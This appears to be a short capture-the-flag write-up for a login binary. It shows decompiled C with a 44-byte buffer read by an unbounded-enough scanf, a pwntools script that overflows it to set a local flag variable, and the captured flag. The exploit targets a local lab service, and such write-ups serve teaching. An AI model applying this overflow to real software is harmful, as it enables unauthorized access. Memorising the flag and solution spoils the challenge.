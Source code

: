 ```yaml
---
created: 2025-03-01T22:17
updated: 2025-03-02T14:21
---
```


Well, `passw0rd` didn't work.

But... if we look closely, `s1` has length of 44 while `scanf` takes in 64 characters.

We can overflow it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s1[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  puts(">>        * * * Login * * *        <<");
  v5 = 0;
  printf("Enter the password: ");
  __isoc99_scanf("%64[^\n]", s1);
  if ( !strcmp(s1, "passw0rd") )
    v5 = 1;
  if ( v5 )
  {
    puts("The password is right!");
    sub_4011F6();
  }
  else
  {
    puts("Wrong password.");
  }
  puts(">>        * * *  Bye  * * *        <<");
  return 0LL;
}
```

```python
# http://127.0.0.1:57254/
from pwn import *
r = remote('127.0.0.1', 57254)
payload = b"A" * 44
payload += p32(1)
r.sendlineafter(b'Enter the password: ', payload)
r.interactive()
```

```flag
ATHACKCTF{seee_d0uble_y0u_eee_0ne_twenty}
```
